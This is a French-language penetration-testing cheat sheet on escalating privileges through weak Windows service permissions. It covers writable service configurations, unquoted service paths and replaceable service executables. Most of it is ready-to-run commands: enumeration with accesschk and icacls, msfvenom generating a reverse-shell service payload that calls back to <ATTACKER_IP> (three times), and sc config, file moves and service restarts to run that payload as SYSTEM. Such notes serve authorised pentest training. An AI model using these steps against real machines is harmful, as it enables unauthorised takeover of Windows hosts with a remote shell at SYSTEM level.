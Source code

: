 # Services Permissions
Il est peu probable que les services Windows de base soient vulnérables à quoi que ce soit - les services installés par l'utilisateur sont beaucoup plus susceptibles d'avoir des trous.

Rechercher des services autres que ceux par défaut

```sh
wmic service get Name, DisplayName, PathName, StartMode | findstr /v /i "C:\Windows"
```

## Binary Paths (Insecure Service Permissions)

Si la DACL du service (et non la DACL exécutable du service) vous permet de modifier la configuration d'un service, vous pourrez reconfigurer le service. Cela vous permettra de pointer vers n'importe quel exécutable dont vous avez besoin et de l'exécuter avec n'importe quel compte de votre choix, y compris **SYSTEM** lui-même.

Vérifier les services avec une DACL accecible en ecriture

```sh
accesschk64.exe -uwcv Everyone *
# check: RW service_name
#				SERVICE_CHANGE_CONFIG
```

Vérifier la DACL d'un service

```sh
accesschk64.exe -uwcv <SERVICE_NAME>
accesschk64.exe -qlc <SERVICE_NAME>
# check RW BUILTIN\USER : SERVICE_ALL_ACCESS
# 		RW Everyone 	: SERVICE_CHANGE_CONFIG
```

Afficher la configuration du service

```sh
sc qc <SERVICE_NAME>
# check: 
#	BINARY_PATH_NAME (Le chemin d'executable du fichier) 
# 	SERVICE_START_NAME (le compte utilisé pour exécuter le service)
```

Génerer un payload et l'écouteur

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=9001 -f exe-service -o payload.exe
```

Autoriser tout le monde a exécuter le payload

```sh
icacls C:\Temp\payload.exe /grant Everyone:F
```

Modifier l'exécutable et le compte associés au service

```sh
sc config <SERVICE_NAME> binPath="C:\Temp\payload.exe" obj=LocalSystem
```

Redémarrer le service et obtenir un shell

```sh
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

## Unquoted Service Paths

Lorsque qu'un service est configuré pour pointer vers un exécutable **«non cité (sans guillemets)»** il est possible de l'exploiter

> Si un attaquant crée l'un des exécutables recherchés avant l'exécutable du service attendu, il peut forcer le service à exécuter un exécutable arbitraire.

Afficher la configuration du service

```sh
sc qc <SERVICE_NAME>
# check: 
#	BINARY_PATH_NAME (Le chemin d'executable du fichier) 
# 	SERVICE_START_NAME (le compte utilisé pour exécuter le service)
```

Vérifier les autorisations sur les dossier de l'exécutable

```sh
icacls <BINARY_PATH_NAME>
# check: BUILTIN\Users:(AD) (WD)
```

Génerer un payload et l'écouteur

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=9001 -f exe-service -o payload.exe
```

Placer le payload dans le chemin vulnerable

```sh
move payload.exe C:\MyPrograms\Disk.exe 
```

Autoriser tout le monde a exécuter le payload

```sh
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

Redémarrer le service et obtenir un shell

```sh
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

## Insecure Permissions on Service Executable 

Si l'exécutable associé à un service dispose de faibles autorisations permettant à un attaquant de le modifier ou de le remplacer, l'attaquant peut obtenir trivialement les privilèges du compte du service.

Afficher la configuration du service

```sh
sc qc <SERVICE_NAME>
# check: 
#	BINARY_PATH_NAME (Le chemin d'executable du fichier) 
# 	SERVICE_START_NAME (le compte utilisé pour exécuter le service)
```

Vérifier les autorisations sur l'exécutable

```sh
icacls <BINARY_PATH_NAME>
# check: Everyone:(M)
```

Génerer un payload et l'écouteur.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=9001 -f exe-service -o payload.exe
```

Une fois le payload sur le serveur Windows, nous procédons au remplacement de l'exécutable du service par notre charge utile.

```sh
cd C:\..\Service-path\

move SERVICE_NAME.exe SERVICE_NAME.exe.bkp

# Ici la charge utile portera le meme nom que le SERVICE vulnerable
move c:\temp\payload.exe SERVICE_NAME.exe
```

Autoriser tout le monde a exécuter le payload

```sh
icacls SERVICE_NAME.exe /grant Everyone:F
```

Redémarrer le service et obtenir un shell

```sh
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```